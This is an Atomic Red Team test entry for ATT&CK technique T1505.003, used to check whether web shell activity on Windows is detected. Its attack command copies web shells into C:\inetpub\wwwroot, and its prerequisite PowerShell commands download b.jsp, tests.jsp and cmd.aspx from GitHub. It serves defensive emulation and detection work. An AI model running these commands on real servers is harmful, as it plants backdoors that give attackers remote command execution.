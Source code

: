```yaml
---
tags: [T1505_003, atomic_test]
filename: "[[T1505.003|T1505.003 - Server Software Component: Web Shell]]"
---
```

# T1505.003 - Server Software Component: Web Shell

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows


**auto_generated_guid:** 0a2ce662-1efa-496f-a472-2fe7b080db16





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder&#92;T1505.003&#92;src|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy /I /Y "#{web_shells}" #{web_shell_path}
```

#### Cleanup Commands:
```cmd
del #{web_shell_path}\b.jsp /q >nul 2>&1
del #{web_shell_path}\tests.jsp /q >nul 2>&1
del #{web_shell_path}\cmd.aspx /q >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{web_shells}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "#{web_shells}" -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/tests.jsp" -OutFile "#{web_shells}/tests.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>
